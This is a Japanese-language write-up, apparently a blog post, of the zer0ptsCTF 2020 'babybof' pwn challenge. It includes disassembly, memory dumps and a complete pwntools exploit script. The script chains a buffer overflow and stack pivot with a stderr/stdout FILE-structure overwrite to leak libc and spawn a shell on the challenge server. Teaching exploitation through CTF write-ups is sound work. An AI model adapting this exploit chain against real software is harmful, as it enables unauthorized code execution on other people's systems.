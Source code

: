 ```yaml
---
layout: page
title: "[zer0ptsCTF / babybof] Writeup"
date: 2020-03-09 00:00:00 -0000
categories: pwn 
---
```


自分の解法が想定解と思ってたら違ったようなので念のため。  
100%刺さって、そんなに長くない。

### TLDR
- (bof) -> edit bss -> edit stderr -> entry -> (leak) -> main -> system
    - edit bss: rbpにstderrを持って来て編集するため。
    - edit stderr: stderrのsetbufでコケないようにする＋リーク用のstdout改ざんのため

### 問題概要
- no pie, no canary, full relroのバイナリで、setbufやった後はbssにreadする。
- mainの関数はバッファが小さめに取られていて、自明なbofがあるが、出力系が一切ない。
- 最後にexitする。 
- バイナリにはropガジェットが与えられている。セットできるのはrdi, rsi, rbp。あとleaveが使える。
- とにかく問題が小さい。全部はれるレベル

```
entry:
        00400430 e8 0a 00        CALL       setup  
                 00 00
        00400435 e8 44 00        CALL       main     
                 00 00
        0040043a e8 e1 ff        CALL       exit  
                 ff ff
```
```
setup: 
        0040043f 55              PUSH       RBP
        00400440 48 89 e5        MOV        RBP,RSP
        00400443 48 31 f6        XOR        RSI,RSI
        00400446 48 b8 30        MOV        RAX,stdin
                 10 60 00 
                 00 00 00 00
        00400450 48 8b 38        MOV        RDI,qword ptr [RAX]=>stdin
        00400453 e8 a8 ff        CALL       setbuf
                 ff ff
        00400458 48 b8 20        MOV        RAX,stdout
                 10 60 00 
                 00 00 00 00
        00400462 48 8b 38        MOV        RDI,qword ptr [RAX]=>stdout
        00400465 e8 96 ff        CALL       setbuf
                 ff ff
        0040046a 48 b8 40        MOV        RAX,stderr
                 10 60 00 
                 00 00 00 00
        00400474 48 8b 38        MOV        RDI,qword ptr [RAX]=>stderr
        00400477 e8 84 ff        CALL       setbuf
                 ff ff
        0040047c 5d              POP        RBP
        0040047d c3              RET
```
```
main:
        0040047e 55              PUSH       RBP
        0040047f 48 89 e5        MOV        RBP,RSP
        00400482 48 83 ec 20     SUB        RSP,0x20
        00400486 ba 00 02        MOV        EDX,0x200
                 00 00
        0040048b 48 8d 75 e0     LEA        RSI=>local_28,[RBP + -0x20] 
        0040048f bf 00 00        MOV        EDI,0x0
                 00 00
        00400494 e8 77 ff        CALL       read
                 ff ff
        00400499 c9              LEAVE
        0040049a c3              RET
```
### 解法
- 出力がないので、stdoutのwriteポインタを触れるのは必須。ただし書き換えただけではリークせず、出力系が動かないとだめ。今回はsetbufを走らせたときにリークするのがポイント。また`rbp`に適当な値をセットした後に`40048b`に飛ぶと、次のpivot先を編集しながら進める。
- stdoutを直接編集したいが、bssのデザイン上stderrが一番触りやすい位置にあるため、stderrを大きく編集して、下に位置するstdoutを書き換える方針で行く。
- stderrを編集するので、`rbp`にstderrのアドレスを持ってくる必要がある。
- 編集した後も動作するために、`0x601048`にガジェットを置いておく必要がある。つまりbssのアドレスも一度編集する必要がある。またstderrを書き換えた後、戻ってくるアドレスを保持したところを準備しておく必要がある。
- 具体的な手順は以下の通り。
    1. `601068`を`rbp`にセットして、`40048b`に飛ぶ。
    2. `601048`に`leave`を設置して、さらにmainのアドレスを格納し、`rbp`に`601040`をセットして、再び`40048b`に飛ぶ。飛ぶ前に`leave`を踏むため、これでrspには`601040`、`rbp`にはstrerrのアドレスがセットされる。
    3. ここでstderrのsetbufが走るように値を設定し、vtable+offsetを2.で設定したmainのアドレスに向けて、**entry**に飛ぶ（setbufを呼ぶため）
    4. これで、entry -> setup -> setbuf(stdout, 0)でリーク -> setbuf(stderr, 0)でvtableからmainへ。リークされた状態で入力待ちになる。
    5. system("/bin/sh")（勝ち）

2.の後のbss最後の状態
```
0x601020 <stdout@@GLIBC_2.2.5>:	0x00007f21097b8760	0x0000000000000000
0x601030 <stdin@@GLIBC_2.2.5>:	0x00007f21097b7a00	0x0000000000000000
0x601040 <stderr@@GLIBC_2.2.5>:	0x00007f21097b8680	0x0000000000400499
0x601050:	0x0000000000000001	0x0000000000000002
0x601060:	0x0000000000000003	0x0000000000000004
0x601070:	0x000000000040047c	0x0000000000601040
0x601080:	0x0000000000400499	0x000000000040047e
0x601090:	0x0000000000000000	0x0000000000000000
0x6010a0:	0x0000000000000000	0x0000000000000000
0x6010b0:	0x0000000000000000	0x0000000000000000
0x6010c0:	0x0000000000000000	0x0000000000000000

```

3.の後のstderrはこんな感じ
```
0x7f21097b8680 <_IO_2_1_stderr_>:	0x0000000000000000	0x0000000000400430
0x7f21097b8690 <_IO_2_1_stderr_+16>:	0x0000000000000000	0x0000000000000000
0x7f21097b86a0 <_IO_2_1_stderr_+32>:	0x0000000000000000	0x0000000000000000
0x7f21097b86b0 <_IO_2_1_stderr_+48>:	0x0000000000000000	0x0000000000000000
0x7f21097b86c0 <_IO_2_1_stderr_+64>:	0x0000000000000000	0x0000000000000000
0x7f21097b86d0 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7f21097b86e0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x0000000000000000
0x7f21097b86f0 <_IO_2_1_stderr_+112>:	0x0000000000000000	0x0000000000000000
0x7f21097b8700 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00000000006010c0
0x7f21097b8710 <_IO_2_1_stderr_+144>:	0x0000000000000001	0x0000000000000002
0x7f21097b8720 <_IO_2_1_stderr_+160>:	0x0000000000000003	0x0000000000000004
0x7f21097b8730 <_IO_2_1_stderr_+176>:	0x0000000000000005	0x0000000000000006
0x7f21097b8740 <_IO_2_1_stderr_+192>:	0x0000000000000007	0x0000000000000008
0x7f21097b8750 <_IO_2_1_stderr_+208>:	0x0000000000000009	0x0000000000601030
0x7f21097b8760 <_IO_2_1_stdout_>:	0x00000000fbad1887	0x0000000000000000
```
完成したスクリプト

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

TARGET = './chall'
HOST = '13.231.207.73'
PORT = 9002

elf = ELF(TARGET)
def start():
    if not args.R:
        print "local"
        return process(TARGET)
        # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
        # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
    else:
        print "remote"
        return remote(HOST, PORT)

def get_base_address(proc):
    return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print "\t-> %s: 0x%x" % (val, eval(val))

r = start()
if args.D:
    debug(r, [0x48b, 0x49a])

rbp = 0x40047c
rdi = 0x40049c
rsi = 0x40049e
leave = 0x400499
intercept = 0x40048b
main = 0x40047e
setup = 0x400430

payload = ''
payload += 'A'*40
payload += flat(rbp, 0x601048+0x20, intercept)
r.send(payload.ljust(0x200, '\x00'))
pause()

payload = ''
payload += flat(intercept, 1, 2, 3, 4, rbp, 0x601040, leave, main)
r.send(payload.ljust(0x200, '\x00'))
pause()

payload = ''
payload += '\x00' * 0x28
payload += flat(setup)
payload = payload.ljust(0x88+0x20, '\x00')
payload += flat(0x6010c0)
payload += flat(1, 2, 3, 4, 5, 6, 7, 8, 9, 0x601088-0x58)
payload += flat(0xfbad1887, 0, 0, 0) + '\x00'
r.send(payload)
leak = u64(r.recv(0x80)[0x40:0x48])
dbg("leak")
base = leak -0x3c5600
system = base + 0x45390
binsh = base + 0x18cd57

payload = ''
payload += '\x00' * 0x28
payload += flat(rdi, binsh, system)
r.sendline(payload)

r.interactive()
r.close()
```

#### 感想
- stdoutいじってリークしないときは絶望したし、stderrで落ちるときも絶望したし、ropでsetbuf組むのもアドレス知らんので詰んでたし、だいぶ苦しみながら作ってた。
- setbufでリークするのはこれからも使えそうな気がする小ネタ。
- これだけ小さいプログラムで、これだけたくさん考えられて楽しいのは本当にすごい。面白かった。